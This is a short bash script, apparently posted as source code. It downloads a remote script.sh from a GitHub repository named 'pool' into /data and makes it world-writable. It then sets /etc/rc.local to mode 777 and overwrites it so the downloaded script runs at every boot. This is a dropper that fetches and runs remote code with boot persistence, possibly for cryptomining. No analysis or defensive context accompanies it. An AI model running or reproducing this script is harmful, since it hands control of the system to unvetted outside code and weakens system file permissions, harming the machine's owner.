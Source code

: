 #!/bin/bash
sleep 10
mkdir /data
cd /data
chmod 777 /etc/rc.local
curl -LO https://github.com/2319763378/pool/raw/master/change/script.sh
chmod 777 /data/script.sh
echo '#!/bin/bash' > /etc/rc.local
echo 'bash /data/script.sh' >> /etc/rc.local
